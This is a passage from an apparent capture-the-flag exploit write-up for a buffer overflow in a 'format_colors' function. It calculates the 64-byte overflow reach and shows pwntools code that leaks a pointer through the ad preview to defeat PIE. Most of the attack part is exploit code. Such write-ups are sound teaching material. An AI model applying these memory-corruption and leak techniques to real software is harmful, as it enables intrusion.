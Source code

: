 Let's calculate how much overflow reach does `format_colors` allow for with a `256` characters long format string:

```py
>>> 256 // len('$RED')
64
>>> 64 * len('\x1b[31m')
320
>>> 320 - 256
64
```

It's possible to reach up to 64 bytes past the end of `description` buffer through this overflow, fully overwriting `r`, `s` and `poster_pubkey` fields and even next chunk's size metadata!

Anyway let's not forget about the Ad preview feature because combining it with the lack of null-termination of `format_colors` output string provides the ability to leak the contents of the struct's `r`, `s` and `poster_pubkey` fields.

### Getting some leaks

Here is a memory view of the area interested by the overflow before calling `format_colors`:

![desk info struct area](writeup/img8.png "desk info struct area")

You can see that another chunk starts at the address `0x56265eee4dc0` (it is the top chunk).

Also, the `poster_pubkey` field at `0x56265eee4db0` is a pointer to a symbol located in the executable's virtual memory, thus allows leaking PIE base address, like this:

```py
# get PIE leak
add_listing_beta()
add_listing_beta_insert(b'B'*6, flat(
    b'$RED'*56, # use description buffer overflow of format_colors function to reach the poster_Q field (pointer to binary's virtual memory address space)
    b'B'*8
))
add_listing_beta_preview()
ru(b'B'*8)
user_q_leak = rl(keepends=False)
user_q_leak = u64(user_q_leak + bytes(8-len(user_q_leak)))
exe.address = user_q_leak - exe.sym['user_Q']
log.info(f'{exe.address = :x}')

add_listing_beta_confirm()
```
